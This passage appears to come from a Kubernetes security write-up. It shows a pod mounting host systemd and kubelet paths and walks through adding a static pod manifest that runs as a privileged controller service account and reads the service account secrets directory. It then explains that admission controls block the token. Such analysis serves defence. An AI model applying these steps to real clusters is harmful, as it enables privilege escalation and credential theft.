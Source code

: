```json
        "name": "cgroup-volume",
        "hostPath": {
          "path": "/sys/fs/cgroup"
        }
      },
      {
        "name": "systemd-volume",
        "hostPath": {
          "path": "/run/systemd"
        }
      },
      {
        "name": "unit-volume",
        "hostPath": {
          "path": "/etc/systemd/system"
        }
      },
      {
        "name": "kubernetes-volume",
        "hostPath": {
          "path": "/etc/kubernetes"
        }
      }
    ]
  }
}
```

  * `systemctl edit --full kubelet`, add `--pod-manifest-path=/etc/kubernetes/manifests` to `ExecStart`
  * Add a static pod manifest:

`/etc/kubernetes/manifests/static.yml`:
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: static
  namespace: kube-system
spec:
  containers:
    - name: static
      image: busybox
      command: ["cat", "/var/run/secrets/kubernetes.io/serviceaccount"]
  serviceAccountName: clusterrole-aggregation-controller
```
  * `systemctl restart kubelet`

Fortunately, the resulting container is not created with a service account token, meaning you cannot escalate privileges further from here. This protection is achieved by two mechanisms in Kubernetes:

  * the [Service Account Admission Controller](https://kubernetes.io/docs/reference/access-authn-authz/service-accounts-admin/#service-account-admission-controller) 
  * the [NodeAuthorizer](https://kubernetes.io/docs/reference/access-authn-authz/node/)
